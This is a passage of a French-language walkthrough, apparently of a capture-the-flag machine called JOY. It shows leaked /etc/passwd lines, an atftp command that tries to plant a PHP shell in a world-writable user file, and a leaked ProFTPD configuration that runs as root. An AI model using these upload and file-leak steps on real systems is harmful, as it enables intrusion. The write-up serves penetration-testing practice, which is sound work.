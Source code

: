 ```console
mysql:x:120:125:MySQL Server,,,:/nonexistent:/bin/false
ntp:x:121:126::/home/ntp:/bin/false
Debian-snmp:x:122:127::/var/lib/snmp:/bin/false
ftp:x:1001:1001::/home/ftp:/bin/false
tftp:x:123:128:tftp daemon,,,:/srv/tftp:/bin/false
postfix:x:124:129::/var/spool/postfix:/bin/false
dovecot:x:125:131:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:126:132:Dovecot login user,,,:/nonexistent:/bin/false
```

C'est prometteur. Je vais tenter de placer via un upload TFTP un shell PHP dans le fichier `haha` de `patrick` vu qu'on a vu plus tôt que le fichier est world-writable :

```bash
atftp --trace --put --remote-file haha --local-file shell.php 192.168.56.121 36969
```

Malheureusement le fichier semble rester vide... Sans doute qu'on ne peut pas écraser les fichiers :

```
2	0.001240035	192.168.56.121	192.168.56.1	TFTP	60	Acknowledgement, Block: 0	34556	40703
```

Finalement j'ai fait fuiter la config du serveur FTP (`/usr/local/etc/proftpd.conf`) :

```
# This is a basic ProFTPD configuration file (rename it to 
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName                      JOY
ServerType                      standalone
ServerIdent                     on "The Good Tech Inc. FTP Server"
DefaultServer                   on

# Port 21 is the standard FTP port.
Port                            21

# Don't use IPv6 support by default.
UseIPv6                         off

# Umask 022 is a good standard umask to prevent new dirs and files
# from being group and world writable.
Umask                           022

# To prevent DoS attacks, set the maximum number of child processes
# to 30.  If you need to allow more than 30 concurrent connections
# at once, simply increase this value.  Note that this ONLY works
# in standalone mode, in inetd mode you should use an inetd server
# that allows you to limit maximum number of processes per service
# (such as xinetd).
MaxInstances                    30

# Set the user and group under which the server will run.
User                            root
Group                           root

# To cause every FTP user to be "jailed" (chrooted) into their home
# directory, uncomment this line.
DefaultRoot ~

# Normally, we want files to be overwriteable.
AllowOverwrite          on

```
